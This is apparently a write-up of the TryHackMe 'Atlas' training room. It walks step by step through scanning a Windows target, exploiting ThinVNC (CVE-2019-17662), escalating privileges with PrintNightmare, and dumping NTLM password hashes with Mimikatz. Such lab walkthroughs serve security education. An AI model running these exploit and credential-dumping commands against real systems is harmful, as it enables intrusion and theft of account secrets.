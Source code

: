 # Atlas
This is my writeup for the TryHackMe room [Atlas](https://tryhackme.com/room/atlas) created by [MuirlandOracle](https://tryhackme.com/p/MuirlandOracle).

![image](https://user-images.githubusercontent.com/86648102/135411347-8f13e0b8-c5c2-4758-ba25-e839550dc248.png)

<details><summary> Task 1 Introduction Room Overview and Deploy! </summary>
 

 This is an introductory level room which aims to teach you the very basics of Windows system exploitation, from initial access, through to privilege escalation.

**Answer the questions below**

### Press the Green "Start Machine" button to deploy the machine!
 
 > No answer needed.
<br>
 <br>
 </details>

<details><summary> Task 2 Enumeration: Port Scanning </summary>

**Enumeration** is probably the most important thing when comes to solving any challenge.


**Answer the questions below**

### Scan your target IP (10.10.200.252) with Nmap!

Let's add a bit of flavour here, to have a more complex scan with output to a text file for later review:

`sudo nmap -sC -sV -v -oN Atlasnmapscan.txt $ip -p- -Pn`

### With the Nmap default port range, you should find that two ports are open. What port numbers are these?

Reffer to the above **scan** ; the 2 ports are appearing quickly with the verbose output.

### What service does Nmap think is running on the higher of the two ports?

The answer is found in the bottom of the nmap scan.

![image](https://user-images.githubusercontent.com/86648102/135414498-baf3e3fd-48f5-4cfd-b10f-db34df0682c7.png)


### We would usually go on to do a lot more in-depth scanning, but we will leave it at that for this introductory room. We have what we need for the time being.

> Here, it's a reference for the nmap scan switches mentioned above. 

  </details>
  

<details><summary> Task 3 Enumeration: Service Enumeration </summary>

Doing the scan as suggested above, will contain this part.
- First service : 3389 RDP: Remote Desktop Protocol, used to get remote graphic desktop session ;
- Second service: 8080 HTTP-PROXY; 
 By accessing it into a web browser, we get prompted to authenticate 
  
  ![image](https://user-images.githubusercontent.com/86648102/135415966-53b1a5c3-f48d-4460-9347-050d2b1c753a.png)

We're going to curl the target to get more info:

`curl $ip:8080 -v`
![image](https://user-images.githubusercontent.com/86648102/135416755-45b5f730-f9c5-4d52-bcb0-f72fd5848e07.png)


**Answer the questions below**


### Use searchsploit to find the vulnerability in ThinVNC

`searchsploit ThinVNC`

![image](https://user-images.githubusercontent.com/86648102/135416567-0b2b2e07-a0ba-4c51-a8c0-a9a48f692f5c.png)

 </details>
 
</details>

<details><summary> Task 4 Attack Foothold </summary>

**Answer the questions below**

# Clone the Git repository at https://github.com/MuirlandOracle/CVE-2019-17662  to your attacking machine.

`git clone https://github.com/MuirlandOracle/CVE-2019-17662`

# Switch into the newly created exploit directory and set the file to be executable 

- First check with `ll`; if the file is executable already, go to next task.

![image](https://user-images.githubusercontent.com/86648102/135418603-22ec11b3-6820-4043-9ffc-767d3ab495e5.png)


# Read through the exploit help menu

`./CVE-2019-17662.py --help`

- This script requires two arguments

![image](https://user-images.githubusercontent.com/86648102/135418690-71194ca4-80ad-465e-9837-7d867f2f9c3f.png)


![image](https://user-images.githubusercontent.com/86648102/135418912-c2ae1f7f-6f8e-4c1d-9452-b724fd50e37d.png)


# Use the credentials found by the script to get past the HTTP Basic Auth presented when trying to access the vulnerable service in your web browser. You should have access to a user desktop!

We could use the inbrowser version or we could use Remmina for this task.

- `sudo apt install remmina`
- After you have it installed, open `remmina`
- Click on "Add new connection" where you put the newfound details

- RIght CLick > Connect 

![image](https://user-images.githubusercontent.com/86648102/135423850-0946b3ae-e6bb-42ed-add1-b3c41bd35e02.png)


</details>

<details><summary> Task 5 Access VNC <> RDP  </summary>


If the above step worked for you, then you should be already conencted to the machine via Remmina.

However, the mentioned method here is working too.

`xfreerdp /v:10.10.200.252 /u:USERNAME /p:PASSWORD /cert:ignore +clipboard /dynamic-resolution /drive:/tmp,share`

> Replace USERNAME and PASSWORD arguments with your findings

</details>

<details><summary> Task 6 Attack Privilege Escalation  </summary>

--- 

**Answer the questions below**

We will use PrintNightmare to elevate our privileges on this target.


### There are many different implementations of PrintNightmare available. You are advised to use a PowerShell version written by Caleb Stewart and John Hammond.


### Navigate to the /tmp directory of your attacking VM, then clone the repository.


`cd /tmp`
`git clone https://github.com/calebstewart/CVE-2021-1675`

- Now, on the RDP session, open a powershell and run the following command:

`. \\tsclient\share\CVE-2021-1675\CVE-2021-1675.ps1` 

> This allows us to view (and thus import) files that are stored in the /tmp folder of our own attacking machine!

![image](https://user-images.githubusercontent.com/86648102/135426765-0c782b7e-5390-4151-88a4-08c738764e35.png)

- Next, in powershell, run `Invoke-Nightmare`

![image](https://user-images.githubusercontent.com/86648102/135427022-bdba10ff-1795-4dd3-95e7-e5069d3736bb.png)

We can now make use of our brand new admin account!
Run:

`Start-Process powershell 'Start-Process cmd -Verb RunAs' -Credential adm1n`

Input as  Password :`P@ssw0rd` (generated before with the script)

Run `whoami /groups`

![image](https://user-images.githubusercontent.com/86648102/135427571-8b68d13f-14b7-4367-9aa3-007fc66231b2.png)

Good. We now have admin on this machine.

</details>

<details><summary> Task 7 Attack Post Exploitation  </summary>

---
**Answer the questions below**

- First up, let's get an up-to-date copy of Mimikatz to our attacking machine.
Go to https://github.com/gentilkiwi/mimikatz/releases/tag/2.2.0-20210810-2 and download `mimikatz_trunk.zip`
Make sure that the zip file is in your /tmp directory, then unzip it with unzip mimikatz_trunk.zip.

On RPD:

`\\tsclient\share\x64\mimikatz.exe`

Then, with mimikatz open:

`privilege::debug`

> this obtains debug privileges which allows us to access other processes for "debugging" purposes.

`token::elevate`

> takes us from our administrative shell with high privileges into a SYSTEM level shell with maximum privileges

![image](https://user-images.githubusercontent.com/86648102/135429820-ea30492a-d8c0-4b6b-97f5-996b41d9371a.png)



# What is the Administrator account's NTLM password hash?

Found in the output of :

`lsadump::sam`

> this will provide us with a list of password hashes for every account on the machine

![image](https://user-images.githubusercontent.com/86648102/135430241-41c128b6-e617-4187-9dac-350418c37c0c.png)

</details>

<details><summary> Task 8 Conclusion Final Thoughts  </summary>

---

Congratulations -- you hacked Atlas!

**We covered initial exploitation of outdated software, as well as exploiting the Windows PrintSpooler and dumping password hashes with Mimikatz.**

</details>




